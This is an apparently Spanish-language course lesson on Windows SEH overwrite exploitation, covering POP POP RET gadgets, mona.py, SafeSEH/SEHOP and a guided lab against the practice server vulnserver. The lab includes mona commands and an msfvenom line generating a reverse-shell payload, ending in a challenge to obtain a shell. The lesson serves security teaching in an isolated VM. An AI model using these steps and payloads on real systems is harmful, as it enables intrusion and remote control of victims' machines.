

# Clase 129 — Explotación en Windows: manejo de SEH

> Parte: **5 — Explotación de sistemas y binarios** · Fuente: *The Shellcoder's Handbook* · Corelan exploit-writing series
> ⏱️ Duración estimada: **130 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

Trasladar los conceptos de explotación al mundo Windows, centrándote en el mecanismo de manejo
estructurado de excepciones (**SEH**) y en cómo un overflow que corrompe la cadena SEH permite
secuestrar el flujo pese a algunas mitigaciones. Verás el uso de `POP POP RET`, la técnica clásica
de sobrescritura de SEH y cómo SafeSEH/SEHOP la complican.

> ⚠️ **Ética:** exclusivamente en una VM Windows propia y aislada, con software vulnerable de
> laboratorio (retos como "vulnserver"). Nunca contra sistemas de terceros.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. **Explicar** la cadena SEH: `_EXCEPTION_REGISTRATION_RECORD` (`next` + `handler`).
2. **Describir** el ataque de sobrescritura de SEH y el rol de `POP POP RET`.
3. **Usar** x64dbg/WinDbg y mona.py para localizar offsets y gadgets.
4. **Reconocer** SafeSEH, SEHOP y DEP/ASLR como mitigaciones y su impacto.
5. **Construir** un exploit SEH sobre un servicio vulnerable de laboratorio.

## 🗺️ Temas

| # | Tema | Por qué importa |
| --- | --- | --- |
| 1 | Modelo de excepciones de Windows | Base del mecanismo SEH |
| 2 | Cadena SEH y sus campos | Qué se corrompe |
| 3 | Sobrescritura de SEH | Alternativa al ret clásico |
| 4 | POP POP RET | Redirige a nSEH (short jump) |
| 5 | mona.py | Automatiza offsets, gadgets, egghunter |
| 6 | SafeSEH / SEHOP | Mitigaciones de la cadena |
| 7 | DEP/ASLR en Windows | Requieren ROP/leaks |
| 8 | vulnserver como práctica | Objetivo legal de laboratorio |

## 🧠 Explicación en profundidad

### La explotación en Windows tiene su propio mecanismo

Aunque los fundamentos —controlar el flujo tras un overflow— son universales, Windows tiene una
arquitectura de manejo de errores propia que abre una vía de explotación característica: el
**Structured Exception Handling** (SEH). En Windows, cuando ocurre una **excepción** (un acceso a
memoria inválido, una división por cero), el sistema no aborta de inmediato: recorre una **cadena de
manejadores de excepciones** registrados, dándole a cada uno la oportunidad de tratar el error. Esa
cadena vive **en la pila**, y ahí está la vulnerabilidad: un overflow que la alcance puede
**secuestrar el manejador**, de modo que la próxima excepción salte a código del atacante.

### La cadena SEH y su sobrescritura

Cada registro de la cadena SEH tiene dos campos: un puntero al **siguiente registro** (`nSEH`) y un
puntero al **manejador** de esta entrada (la función que se llamará si hay una excepción). El ataque
clásico —el **SEH overwrite**— desborda un buffer en la pila hasta sobrescribir estos dos campos, y
luego **provoca deliberadamente una excepción** (por ejemplo, siguiendo el overflow hasta corromper
memoria y causar un fallo). Al ocurrir la excepción, Windows invoca el manejador... que ahora apunta
a donde el atacante quiere. Es una alternativa al clásico overwrite de la dirección de retorno,
especialmente útil cuando un stack canary protege el retorno pero no la cadena SEH.



### POP POP RET: el gadget que caracteriza la técnica

Hay un giro elegante que hace única a la explotación SEH. Cuando Windows invoca el manejador de
excepciones, la disposición de la pila en ese momento hace que el **puntero al propio registro SEH**
(que contiene `nSEH`, controlado por el atacante) esté en una posición predecible. El truco es apuntar
el manejador a un gadget **`POP POP RET`**: las dos instrucciones `pop` descartan dos valores de la
pila y el `ret` **salta a `nSEH`** —el campo que el atacante también controla—. Como `nSEH` solo tiene
4 bytes, se rellena con un **salto corto** (`jmp short`) que redirige a la zona más grande donde está
el shellcode. Esta coreografía —Handler → `POP POP RET` → `nSEH` → salto corto → shellcode— es la
firma de la explotación SEH, y **`mona.py`** (una extensión de Immunity Debugger/WinDbg) la
automatiza: encuentra gadgets `POP POP RET` válidos, calcula offsets y genera el patrón, siendo la
herramienta emblemática del *exploiting* en Windows.

### Las mitigaciones de Windows y el contexto

Windows respondió con defensas específicas. **SafeSEH** valida que el manejador apunte a una función
registrada como manejador legítimo (impide saltar a un gadget arbitrario), y **SEHOP** comprueba la
**integridad de la cadena** SEH en tiempo de ejecución (detecta que ha sido manipulada). Junto con el
**DEP y el ASLR** de Windows —equivalentes a los de Linux de la clase 122—, hacen que el SEH overwrite
clásico requiera bypasses adicionales en software moderno, igual que en Linux. El entorno de práctica
canónico es **vulnserver**, un servidor deliberadamente vulnerable diseñado para aprender explotación
en Windows, y la cadena de herramientas gira en torno a Immunity Debugger o WinDbg con `mona.py`. La
lección de la clase es que los **principios** de la explotación son universales —control del flujo,
bypass de mitigaciones, reutilización de código— pero los **mecanismos** son específicos de cada
sistema operativo, y Windows, por su modelo de excepciones, tiene los suyos.

## 📖 Definiciones y características

- **SEH (Structured Exception Handling):** mecanismo de Windows con una lista enlazada de manejadores
  en el stack. *Clave:* cada registro tiene `next` y `handler`.
- **Sobrescritura de SEH:** el overflow sobrescribe `handler` (y `next`) para desviar la ejecución al
  disparar una excepción. *Clave:* útil cuando el overflow es mayor que la distancia al retorno.
- **POP POP RET:** gadget que, al invocarse el handler, salta a `nSEH` (los 4 bytes previos), donde se
  coloca un `short jmp` al shellcode. *Clave:* técnica canónica de SEH.
- **SafeSEH:** lista blanca de handlers válidos por módulo. *Clave:* obliga a usar un `POP POP RET` en
  un módulo **no** protegido por SafeSEH.
- **SEHOP:** valida la integridad de la cadena SEH en runtime. *Clave:* dificulta la sobrescritura.
- **mona.py:** plugin de Immunity/WinDbg para pattern, `!mona seh`, `!mona rop`. *Clave:* acelera todo
  el flujo.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| SEH | Structured Exception Handling de Windows |
| Excepción | Error (acceso inválido, división por cero) que dispara el manejo |
| Cadena SEH | Lista de manejadores registrados, en la pila |
| nSEH | Puntero al siguiente registro de la cadena |
| Handler | Puntero a la función manejadora de esta entrada |
| SEH overwrite | Sobrescribir nSEH y Handler con un overflow |
| Provocar excepción | Forzar el fallo para que se invoque el Handler |
| POP POP RET | Gadget que salta de vuelta a nSEH controlado |
| Salto corto (jmp short) | Redirige desde nSEH al shellcode |
| mona.py | Extensión que automatiza la explotación en Windows |
| Immunity / WinDbg | Depuradores usados en el exploiting de Windows |
| SafeSEH | Valida que el manejador sea legítimo |
| SEHOP | Comprueba la integridad de la cadena SEH |
| vulnserver | Servidor vulnerable para practicar en Windows |

## 🧰 Herramientas y preparación

En una **VM Windows aislada** (sin red hacia producción):

- x64dbg o WinDbg (con la extensión de mona en Immunity Debugger clásico).
- `mona.py` de Corelan.
- **vulnserver** como objetivo de práctica legal.
- pwntools/python para enviar el payload por socket.

## 🧪 Laboratorio guiado

> Entorno propio: VM Windows aislada + vulnserver (software de práctica).

1. Lanza vulnserver y conéctate con `nc`/pwntools; identifica el comando vulnerable (p. ej. `GMON`).

2. Provoca el crash enviando una cadena larga y observa en el debugger que la cadena SEH se sobrescribe
   (ver `SEH chain`).

3. Halla el offset a `nSEH`/`SEH` con un patrón cíclico:

   ```text
   !mona pc 5000        ; genera patrón
   ; (crash)
   !mona findmsp        ; muestra offset a nSEH y SEH
   ```

4. Busca un `POP POP RET` en un módulo sin SafeSEH:

   ```text
   !mona seh
   ```

5. Construye el payload: `[relleno][nSEH: short jmp][SEH: dir POP POP RET][NOPs][shellcode]`.

6. Genera shellcode con `msfvenom -p windows/shell_reverse_tcp LHOST=<vm> LPORT=4444 -f python` (para
   la VM), evitando badchars (identifícalos con `!mona bytearray`).

7. Envía el exploit, dispara la excepción y confirma la ejecución (shell en tu listener de la VM).

## ✍️ Ejercicios

1. Localiza los badchars del servicio con `!mona bytearray` y compara memoria.
2. Explica por qué se salta primero a `nSEH` y no directamente al shellcode.
3. Identifica un módulo sin SafeSEH en el proceso con `!mona modules`.
4. Sustituye el short jmp por un egghunter cuando el espacio es escaso.
5. Describe cómo SEHOP rompería tu cadena y qué haría falta.
6. Adapta el shellcode para evitar un badchar concreto (`\x00`, `\x0a`).

## 📝 Reto verificable

Sobre vulnserver en tu VM, consigue ejecución de código mediante sobrescritura de SEH y recibe una
shell en tu listener local.

**Criterio de aceptación:** tu listener recibe una shell del proceso vulnserver; el payload usa un
`POP POP RET` de un módulo sin SafeSEH y un short jmp en `nSEH`.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
| --- | --- |
| El handler no se ejecuta | No se disparó la excepción; asegura corromper la cadena SEH |
| POP POP RET rechazado | El módulo tiene SafeSEH; elige otro con `!mona seh` |
| Shellcode truncado | Badchars presentes; regenera evitándolos |
| Short jmp cae en basura | Distancia de salto mal calculada |
| Funciona sin DEP, no con DEP | Necesitas ROP para marcar memoria ejecutable |

## ❓ Preguntas frecuentes

**❓ ¿Por qué SEH en vez del ret clásico?** Cuando el overflow es grande, corromper SEH suele ser más
fiable que alcanzar el retorno directo.

**❓ ¿Sigue siendo relevante?** En software legacy y algunos servicios sí; en binarios modernos con
SafeSEH+SEHOP+DEP+ASLR es mucho más difícil.

**❓ ¿mona funciona en WinDbg moderno?** Está pensado para Immunity/WinDbg; existen ports. Muchos usan
x64dbg + scripts propios hoy.

## 🔗 Referencias

- Corelan, "Exploit writing tutorial part 3: SEH" — <https://www.corelan.be/>
- The Shellcoder's Handbook, parte de Windows. Wiley.
- vulnserver (Stephen Bradshaw) — <https://github.com/stephenbradshaw/vulnserver>
- Microsoft, SEH docs — <https://learn.microsoft.com/windows/win32/debug/structured-exception-handling>

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-129-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-129-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 128 — Integer overflows y errores aritméticos](../128-integer-overflows-y-errores-aritmeticos/README.md)

## ➡️ Siguiente clase

[Clase 130 — Ingeniería inversa: introducción](../130-ingenieria-inversa-introduccion/README.md)
